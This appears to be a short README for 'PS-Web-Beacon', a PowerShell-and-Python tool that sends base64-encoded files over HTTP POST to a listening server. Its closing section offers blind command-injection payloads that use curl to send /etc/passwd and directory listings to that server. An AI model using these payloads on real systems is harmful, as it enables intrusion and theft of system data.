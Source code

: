 ## PS-Web-Beacon

A simple http server to transfer files from windows to any other machine. This method utilises PowerShell's IWR to send a base64 encoded file as post data to a python web server, the web server then saves the base64 decoded post data to a file or to stdout

On origin

```
$b64 = [System.convert]::ToBase64String((Get-Content -Path '[<FILE-PATH>]' -Encoding Byte))
Invoke-WebRequest -Uri http://[<IP>]:[<PORT>] -Method POST -Body $b64
```

On destination

default port is 8000 and default output is to stdout

```
./server.py -f test.txt -p 80
./server.py
```

This server can also be used to exfiltrate data in blind command injection or such

```
127.0.0.1;curl -X POST [<IP>]:[<PORT>] -d "$(base64 /etc/passwd)"
127.0.0.1;curl -X POST [<IP>]:[<PORT>] -d "$(ls -al | base64)"
```
